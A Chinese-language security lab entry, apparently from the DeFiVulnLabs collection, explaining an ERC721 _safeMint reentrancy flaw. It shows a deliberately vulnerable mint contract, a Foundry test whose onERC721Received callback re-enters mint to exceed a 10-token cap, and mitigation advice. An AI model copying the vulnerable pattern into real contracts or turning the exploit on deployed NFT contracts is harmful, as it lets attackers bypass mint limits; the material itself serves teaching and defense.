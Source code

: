 # 不受保护的回调——ERC721 SafeMint重入  
[Unprotected-callback.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Unprotected-callback.sol)  

**名称：** 不受保护的回调——ERC721 SafeMint可重入漏洞  

**描述：**  
合约ContractTest正在利用回调功能绕过由MaxMint721合约设置的最大铸造限制。这是通过触发onERC721Received函数来实现的，该函数在内部再次调用mint函数。  
因此，尽管MaxMint721试图将用户可以铸造的代币数量限制为MAX_PER_USER，但ContractTest合约成功铸造了超过这个限制的代币。  


**场景：**  
本练习涉及通过回调函数来铸造更多的非同质化代币(NFT)。


**缓解措施：**  
遵循“检查-效果-交互”原则，并使用OpenZeppelin重入防护机制。  

**参考：**  
https://blocksecteam.medium.com/when-safemint-becomes-unsafe-lessons-from-the-hypebears-security-incident-2965209bda2a  
https://www.paradigm.xyz/2021/08/the-dangers-of-surprising-code  


**MaxMint721合约：**  
```
contract MaxMint721 is ERC721Enumerable {
    uint256 public MAX_PER_USER = 10;

    constructor() ERC721("ERC721", "ERC721") {}

    function mint(uint256 amount) external {
        require(
            balanceOf(msg.sender) + amount <= MAX_PER_USER,
            "exceed max per user"
        );
        for (uint256 i = 0; i < amount; i++) {
            uint256 mintIndex = totalSupply();
            _safeMint(msg.sender, mintIndex);
        }
    }
}
```  
**如何测试：**  
forge test --contracts src/test/**Unprotected-callback.sol** -vvvv
```
// 测试铸造新代币的公共函数
function testSafeMint() public {
    // 创建MaxMint721合约的新实例。
    MaxMint721Contract = new MaxMint721();
        
    // 尝试铸造最大数量的新代币。 
    // 根据正常实现，这应该铸造maxMints数量的新代币。
    MaxMint721Contract.mint(maxMints);
        
    // 控制台日志表明发生了一个漏洞，允许铸造19个NFT。
    console.log("Bypassed maxMints, we got 19 NFTs");
        
    // 该代码判断确实已经铸造了19个NFT。
    assertEq(MaxMint721Contract.balanceOf(address(this)), 19);
        
    // 输出由该合约铸造的NFT数量
    console.log("NFT minted:", MaxMint721Contract.balanceOf(address(this)));
}

// 此函数是一个标准的ERC721Receiver接口的实现，允许该合约从其他合约接收ERC721代币。
// 在此案例中，它用于执行铸造漏洞。
function onERC721Received(
    address,
    address,
    uint256,
    bytes memory
) public returns (bytes4) {
        
    // 检查这是否是第一次调用函数
    if (!complete) {
        // 将函数标记为调用
        complete = true;
            
        // 新代币数量为(maxMints - 1)  
        MaxMint721Contract.mint(maxMints - 1);
            
        // 记录请求铸造的代币数量
        console.log("Called with :", maxMints - 1);
    }
        
    // 这是成功接收ERC721代币的标准返回值
    return this.onERC721Received.selector;
}
```  
**红框：**成功绕过maxMint限制   
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F86e9ee9c-86cb-4ef2-9c5a-cf8774cacda8%2FUntitled.png?table=block&id=a2eb9107-aa44-4bc6-a6b6-0c1a0f284393&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
